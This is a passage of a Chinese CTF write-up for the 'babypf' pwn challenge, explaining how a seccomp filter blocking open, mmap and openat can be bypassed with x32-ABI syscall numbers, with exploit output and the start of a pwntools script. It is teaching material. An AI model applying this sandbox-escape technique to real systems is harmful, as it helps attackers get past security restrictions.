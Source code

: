 只禁用了open,mmap,openat, open_by_handle_at和ptrace

第一反应:那为啥不直接用execve???

```

$ python exp.py                                
[+] Starting local process './babypf': pid 23036
[*] Switching to interactive mode
[*] Process './babypf' stopped with exit code 0 (pid 23036)
sh: error while loading shared libraries: libc.so.6: cannot open shared object file: Invalid argument
THANK YOU
[*] Got EOF while reading in interactive
$
```

果然是我太年轻了

wp上说Since 3.4 the Linux kernel has had a feature called the X32 ABI; 64bit syscalls with 32bit pointers.

看了一下`/usr/include/x86_64-linux-gnu/asm/unistd_x32.h`

内容如下

```

#ifndef _ASM_X86_UNISTD_X32_H
#define _ASM_X86_UNISTD_X32_H 1

#define __NR_read (__X32_SYSCALL_BIT + 0)
#define __NR_write (__X32_SYSCALL_BIT + 1)
#define __NR_open (__X32_SYSCALL_BIT + 2)
#define __NR_close (__X32_SYSCALL_BIT + 3)
#define __NR_stat (__X32_SYSCALL_BIT + 4)
#define __NR_fstat (__X32_SYSCALL_BIT + 5)
#define __NR_lstat (__X32_SYSCALL_BIT + 6)
#define __NR_poll (__X32_SYSCALL_BIT + 7)
#define __NR_lseek (__X32_SYSCALL_BIT + 8)
#define __NR_mmap (__X32_SYSCALL_BIT + 9)
#define __NR_mprotect (__X32_SYSCALL_BIT + 10)
......
```

而`__X32_SYSCALL_BIT`为`0x40000000`

构造shellcode读出flag

```

#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']
context.arch = 'amd64'
local = 1

if local:
	cn = process('./babypf')
	bin = ELF('./babypf',checksec=False)
	#libc = ELF('',checksec=False)
else:
	#cn = remote('')
	pass


def z(a=''):
	gdb.attach(cn,a)
```